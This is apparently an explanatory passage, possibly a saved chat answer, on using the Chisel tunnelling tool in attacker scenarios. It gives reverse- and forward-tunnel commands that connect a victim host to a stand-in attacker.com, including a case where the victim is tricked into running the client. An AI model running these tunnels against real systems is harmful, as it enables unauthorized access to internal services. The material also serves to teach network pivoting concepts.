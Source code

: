 - Attacker has a malicious service on `localhost:4000`.
- The attacker will set up a Chisel server on their machine.
- The attacker tricks the victim into running a Chisel client, connecting back to the attacker's server and setting up a reverse tunnel.

**ASCII**:

```less<button class="flex ml-auto gizmo:ml-0 gap-2 items-center"><svg stroke="currentColor" fill="none" stroke-width="2" viewBox="0 0 24 24" stroke-linecap="round" stroke-linejoin="round" class="icon-sm" height="1em" width="1em" xmlns="http://www.w3.org/2000/svg"><path d="M16 4h2a2 2 0 0 1 2 2v14a2 2 0 0 1-2 2H6a2 2 0 0 1-2-2V6a2 2 0 0 1 2-2h2"></path><rect x="8" y="2" width="8" height="4" rx="1" ry="1"></rect></svg>Copy code</button>
attacker.com:4000 <----[Chisel]---- victim.host:8080

```
**Commands**:

On `attacker.com`:

```bash<button class="flex ml-auto gizmo:ml-0 gap-2 items-center"><svg stroke="currentColor" fill="none" stroke-width="2" viewBox="0 0 24 24" stroke-linecap="round" stroke-linejoin="round" class="icon-sm" height="1em" width="1em" xmlns="http://www.w3.org/2000/svg"><path d="M16 4h2a2 2 0 0 1 2 2v14a2 2 0 0 1-2 2H6a2 2 0 0 1-2-2V6a2 2 0 0 1 2-2h2"></path><rect x="8" y="2" width="8" height="4" rx="1" ry="1"></rect></svg>Copy code</button>
chisel server -p 8000 --reverse

```
On `victim.host` (assuming the attacker somehow executes this):

```bash<button class="flex ml-auto gizmo:ml-0 gap-2 items-center"><svg stroke="currentColor" fill="none" stroke-width="2" viewBox="0 0 24 24" stroke-linecap="round" stroke-linejoin="round" class="icon-sm" height="1em" width="1em" xmlns="http://www.w3.org/2000/svg"><path d="M16 4h2a2 2 0 0 1 2 2v14a2 2 0 0 1-2 2H6a2 2 0 0 1-2-2V6a2 2 0 0 1 2-2h2"></path><rect x="8" y="2" width="8" height="4" rx="1" ry="1"></rect></svg>Copy code</button>
chisel client attacker.com:8000 R:8080:127.0.0.1:4000

```
Now, when someone on `victim.host` goes to `localhost:8080`, they're connecting to the malicious service on `attacker.com:4000`.

### 2. Chisel for Forward Tunnels (Local Port Forwarding):
**Scenario**: The attacker wants to access a restricted service on the victim's machine.

**Example**:


- Victim has an internal web application on `localhost:3000`.
- The attacker wants to access this service via their local machine on `localhost:8080`.

**ASCII**:

```less<button class="flex ml-auto gizmo:ml-0 gap-2 items-center"><svg stroke="currentColor" fill="none" stroke-width="2" viewBox="0 0 24 24" stroke-linecap="round" stroke-linejoin="round" class="icon-sm" height="1em" width="1em" xmlns="http://www.w3.org/2000/svg"><path d="M16 4h2a2 2 0 0 1 2 2v14a2 2 0 0 1-2 2H6a2 2 0 0 1-2-2V6a2 2 0 0 1 2-2h2"></path><rect x="8" y="2" width="8" height="4" rx="1" ry="1"></rect></svg>Copy code</button>
attacker.com:8080 ----[Chisel]---> victim.host:3000

```
**Commands**:

On `victim.host` (assuming the attacker somehow executes this):

```bash<button class="flex ml-auto gizmo:ml-0 gap-2 items-center"><svg stroke="currentColor" fill="none" stroke-width="2" viewBox="0 0 24 24" stroke-linecap="round" stroke-linejoin="round" class="icon-sm" height="1em" width="1em" xmlns="http://www.w3.org/2000/svg"><path d="M16 4h2a2 2 0 0 1 2 2v14a2 2 0 0 1-2 2H6a2 2 0 0 1-2-2V6a2 2 0 0 1 2-2h2"></path><rect x="8" y="2" width="8" height="4" rx="1" ry="1"></rect></svg>Copy code</button>
chisel server -p 8000

```
On `attacker.com`:

```bash<button class="flex ml-auto gizmo:ml-0 gap-2 items-center"><svg stroke="currentColor" fill="none" stroke-width="2" viewBox="0 0 24 24" stroke-linecap="round" stroke-linejoin="round" class="icon-sm" height="1em" width="1em" xmlns="http://www.w3.org/2000/svg"><path d="M16 4h2a2 2 0 0 1 2 2v14a2 2 0 0 1-2 2H6a2 2 0 0 1-2-2V6a2 2 0 0 1 2-2h2"></path><rect x="8" y="2" width="8" height="4" rx="1" ry="1"></rect></svg>Copy code</button>
chisel client victim.host:8000 8080:127.0.0.1:3000

```
Now, the attacker can visit `localhost:8080` on their machine and access the service running on the victim's `localhost:3000`.
